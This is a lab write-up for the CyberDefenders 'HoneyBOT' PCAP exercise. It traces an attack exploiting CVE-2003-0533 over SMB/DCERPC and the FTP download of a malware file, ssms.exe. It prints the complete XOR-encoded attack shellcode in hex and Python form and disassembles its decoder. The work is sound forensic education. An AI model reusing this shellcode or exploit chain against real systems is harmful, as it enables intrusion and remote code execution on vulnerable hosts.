



HoneyBOT
DFIR & Malware analysis, 1700 points
Description
A PCAP analysis exercise highlighting attacker's interactions with honeypots and how automatic exploitation works.. (Note that the IP address of the victim has been changed to hide the true location.)
Author: The Honeynet Project
Solution
For this lab, I will analyze a PCAP file which recorded a real attack, like said in the description. To break down this exercise, I will focus on interesting questions asked in this CyberDefenders' lab. Thus, some questions might be omitted.
To sum up the first ones, an attacker, whoever this is, has the IP address 98.114.205.102 and targets a server with the IP address 192.150.11.111. His IP address geolocates him in the United States and his whole attack took 16 seconds to occur. In total, he opened 5 TCP sessions during his attack, I found this figure with the following filter, which ensures that TCP sessions are created, with tcpdump:
$ tcpdump -nr HoneyBOT.pcap 'tcp[tcpflags] & (tcp-syn|tcp-ack) = (tcp-syn|tcp-ack)' | wc -l
reading from file HoneyBOT.pcap, link-type EN10MB (Ethernet)
5
Q7) Provide the CVE number of the exploited vulnerability.
Then, I land at the first interesting question. I noticed that the SMB protocol is used (answer to the next question actually) and this is uncommon, this is why I went down this road, thinking that this is the protocol used to carry over the exploit.
Even weirder, I found, in packet 26 and 28, a remote procedure call with the protocol DCERPC, which is new to me. Just after that, in packet 33, there is a huge request (3208 bytes), doing an overflow with 0x31. I used Google to search for CVEs linked to DsRoleUpgradeDownlevelServer, which is the information gave for this request, and found an old CVE, matching this attack methodology: CVE-2003-0533. I guess this is an old lab, still, the methodology is interesting to analyze. Finally, I understood how it works: this is a stack-based buffer overflow in a certain Active Directory service which lead to a RCE. For the historical record, this technique is used by the Sasser worm. With that, the attacker downloaded an additional malware through the FTP protocol.

Q10) What is the name of the downloaded malware?
I guessed that it is a Windows executable, thereby, with the extension exe. I searched for any entry like that with this tshark command:
$ tshark -r HoneyBOT.pcap -Y "frame contains .exe"
42 3.444956 98.114.205.102 → 192.150.11.111 TCP 177 1924 → 1957 [PSH, ACK] Seq=1 Ack=2 Win=64239 Len=123
44 3.944177 98.114.205.102 → 192.150.11.111 TCP 64 1924 → 1957 [PSH, ACK] Seq=124 Ack=2 Win=64239 Len=10
66 6.009415 192.150.11.111 → 98.114.205.102 TCP 81 36296 → 8884 [PSH, ACK] Seq=57 Ack=125 Win=5888 Len=15 TSval=4055634113 TSecr=438620
After looking in packet 42, I found our malware named as ssms.exe.

Q12) When was the involved malware first submitted to VirusTotal for analysis? Format: YYYY-MM-DD
Remember, there are 5 TCP sessions opened in this capture and the malware was downloaded, thus, I should be able to find this malware in one of these TCP sessions. After getting it, I submit it to VirusTotal, and get the first submission date, let's go!
After a quick search, the 4th TCP session is our winner, I get more information from VirusTotal then: https://www.virustotal.com/gui/file/b14ccb3786af7553f7c251623499a7fe67974dde69d3dffd65733871cddf6b6d/details.
And I can identify the first submission, as thought beforehand First Submission 2007-06-27 08:47:05
Q13) What is the key used to encode the shellcode?
What about some reversing now. I need to reverse the shellcode to know what key is used to encode it. First, let's find this shellcode.

Okay, the exploit seems to be: stack-based Buffer Overflow (0x31) -> NOP sled (0x90) -> shellcode -> NOP sled (0x90).
The shellcode in hex digits:
eb105a4a33c966b97d0180340a99e2faeb05e8ebffffff7095989999c3fd38a999999912d99512e9853412d991124112eaa512ed87e19a6a12e7b99a6212d78daa74cfcec812a69a62126bf397c06a3fed91c0c61a5e9ddc7b70c0c6c7125412dfbd9a5a48789a58aa50ff129112df859a5a58789b9a5812999a5a1263126e1a5f971249f39ac0711e9999991a5f94cbcf66ce65c31241f39cc071ed999999c9c9c9c9f398f39b66ce7512415e9e9b999e3caa5910de9df389ceca66ce69f398ca66ce6dc9c9ca66ce6112491a75dd126daa59f389c0109d177b6210cfa110cfa510cfd9ff5edfb5989814de89c9cfaa50c8c8c8f398c8c85edea5faf4fd9914dea5c9c866ce79cb66ce65ca66ce65c966ce7daa59351c59ec60c8cbcfca664bc3c0327b77aa595a7176676666defcedc9ebf6fad8fdfdebfceaea99daebfcf8edfcc9ebf6fafceaead899dce1f0edcdf1ebfcf8fd99d5f6f8fdd5f0fbebf8ebe0d899eeeaabc6aaab99cecad8caf6faf2fcedd899fbf0f7fd99f5f0eaedfcf799f8fafafce9ed99faf5f6eafceaf6faf2fced99
With the help of this Stack Overflow thread, I got the ASCII shellcode by reshaping it first:
$ echo 'eb105a4a33c966b97d0180340a99e2faeb05e8ebffffff7095989999c3fd38a999999912d99512e9853412d991124112eaa512ed87e19a6a12e7b99a6212d78daa74cfcec812a69a62126bf397c06a3fed91c0c61a5e9ddc7b70c0c6c7125412dfbd9a5a48789a58aa50ff129112df859a5a58789b9a5812999a5a1263126e1a5f971249f39ac0711e9999991a5f94cbcf66ce65c31241f39cc071ed999999c9c9c9c9f398f39b66ce7512415e9e9b999e3caa5910de9df389ceca66ce69f398ca66ce6dc9c9ca66ce6112491a75dd126daa59f389c0109d177b6210cfa110cfa510cfd9ff5edfb5989814de89c9cfaa50c8c8c8f398c8c85edea5faf4fd9914dea5c9c866ce79cb66ce65ca66ce65c966ce7daa59351c59ec60c8cbcfca664bc3c0327b77aa595a7176676666defcedc9ebf6fad8fdfdebfceaea99daebfcf8edfcc9ebf6fafceaead899dce1f0edcdf1ebfcf8fd99d5f6f8fdd5f0fbebf8ebe0d899eeeaabc6aaab99cecad8caf6faf2fcedd899fbf0f7fd99f5f0eaedfcf799f8fafafce9ed99faf5f6eafceaf6faf2fced99' | sed 's/../&\\x/g;s/:$//'
Then, getting our assembly code:
$ python -c 'print "\xeb\x10\x5a\x4a\x33\xc9\x66\xb9\x7d\x01\x80\x34\x0a\x99\xe2\xfa\xeb\x05\xe8\xeb\xff\xff\xff\x70\x95\x98\x99\x99\xc3\xfd\x38\xa9\x99\x99\x99\x12\xd9\x95\x12\xe9\x85\x34\x12\xd9\x91\x12\x41\x12\xea\xa5\x12\xed\x87\xe1\x9a\x6a\x12\xe7\xb9\x9a\x62\x12\xd7\x8d\xaa\x74\xcf\xce\xc8\x12\xa6\x9a\x62\x12\x6b\xf3\x97\xc0\x6a\x3f\xed\x91\xc0\xc6\x1a\x5e\x9d\xdc\x7b\x70\xc0\xc6\xc7\x12\x54\x12\xdf\xbd\x9a\x5a\x48\x78\x9a\x58\xaa\x50\xff\x12\x91\x12\xdf\x85\x9a\x5a\x58\x78\x9b\x9a\x58\x12\x99\x9a\x5a\x12\x63\x12\x6e\x1a\x5f\x97\x12\x49\xf3\x9a\xc0\x71\x1e\x99\x99\x99\x1a\x5f\x94\xcb\xcf\x66\xce\x65\xc3\x12\x41\xf3\x9c\xc0\x71\xed\x99\x99\x99\xc9\xc9\xc9\xc9\xf3\x98\xf3\x9b\x66\xce\x75\x12\x41\x5e\x9e\x9b\x99\x9e\x3c\xaa\x59\x10\xde\x9d\xf3\x89\xce\xca\x66\xce\x69\xf3\x98\xca\x66\xce\x6d\xc9\xc9\xca\x66\xce\x61\x12\x49\x1a\x75\xdd\x12\x6d\xaa\x59\xf3\x89\xc0\x10\x9d\x17\x7b\x62\x10\xcf\xa1\x10\xcf\xa5\x10\xcf\xd9\xff\x5e\xdf\xb5\x98\x98\x14\xde\x89\xc9\xcf\xaa\x50\xc8\xc8\xc8\xf3\x98\xc8\xc8\x5e\xde\xa5\xfa\xf4\xfd\x99\x14\xde\xa5\xc9\xc8\x66\xce\x79\xcb\x66\xce\x65\xca\x66\xce\x65\xc9\x66\xce\x7d\xaa\x59\x35\x1c\x59\xec\x60\xc8\xcb\xcf\xca\x66\x4b\xc3\xc0\x32\x7b\x77\xaa\x59\x5a\x71\x76\x67\x66\x66\xde\xfc\xed\xc9\xeb\xf6\xfa\xd8\xfd\xfd\xeb\xfc\xea\xea\x99\xda\xeb\xfc\xf8\xed\xfc\xc9\xeb\xf6\xfa\xfc\xea\xea\xd8\x99\xdc\xe1\xf0\xed\xcd\xf1\xeb\xfc\xf8\xfd\x99\xd5\xf6\xf8\xfd\xd5\xf0\xfb\xeb\xf8\xeb\xe0\xd8\x99\xee\xea\xab\xc6\xaa\xab\x99\xce\xca\xd8\xca\xf6\xfa\xf2\xfc\xed\xd8\x99\xfb\xf0\xf7\xfd\x99\xf5\xf0\xea\xed\xfc\xf7\x99\xf8\xfa\xfa\xfc\xe9\xed\x99\xfa\xf5\xf6\xea\xfc\xea\xf6\xfa\xf2\xfc\xed\x99"' | ndisasm -u -
00000000 EB10 jmp short 0x12
00000002 5A pop edx
00000003 4A dec edx
00000004 33C9 xor ecx,ecx
00000006 66B97D01 mov cx,0x17d
0000000A 80340A99 xor byte [edx+ecx],0x99
0000000E E2FA loop 0xa
[...]
The 6th line tells us indeed the key used to encode the shellcode, which is 0x99, by a XOR operation.
Q15) The shellcode used a specific technique to determine its location in memory. What is the OS file being queried during this process?
The attackers usually use syscalls to interact with the memory, hence, they use the OS's kernel. The exercise is about a Windows system, an old one, I can guess the file is dealing with 32 bits and not 64 bits like nowadays and also with the kernel. Thus, I search a bit more with Google and found kernel32.dll matching my requirements.